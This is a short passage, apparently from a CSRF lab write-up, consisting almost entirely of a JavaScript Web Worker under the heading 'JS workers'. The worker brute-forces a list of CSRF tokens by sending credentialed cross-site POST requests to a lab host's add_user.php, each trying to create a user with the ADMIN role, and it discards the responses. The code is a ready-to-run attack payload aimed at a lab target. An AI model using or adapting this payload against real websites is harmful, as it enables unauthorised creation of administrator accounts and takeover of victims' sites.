 ### JS workers

```js
self.addEventListener('message', function (e) {
   var tokens = e.data.tokens;

   function bruteLoop(TList) {
      for (var i = 0; i < TList.length; i++) {
         console.info("Testing: " + TList[i]);
         XHRPost(TList[i]);
      }
      Terminator();
   }

   function XHRPost(tVal) {
      var http = new XMLHttpRequest();
      var url = "http://5.csrf.labs/add_user.php";

      var token = tVal;

      params = {
         "name": "luffy",
         "surname": "joyboy",
         "email": "luffy@hacker.site",
         "role": "ADMIN",
         "submit": "",
         "CSRFToken": token,
      };

      http.open("POST", url, true);
      http.withCredentials = 'true';

      // Send the proper header information along with the request
      http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      http.onreadystatechange = function () {
         if (http.readyState > 1) { // We don't care about responses
            http.abort();
         }
      };

      // Serialize the data without using JQuery 
      queryParams = Object.keys(params).reduce(function (a, k) {
         a.push(k + '=' + encodeURIComponent(params[k]));
         return a
      }, []).join('&');
      http.send(queryParams);
   }

   function Terminator() {
      self.postMessage("macacos me mordam");
      self.close();
      return;
   }

   // Brute Loop
   bruteLoop(tokens);
}, false);
 
```
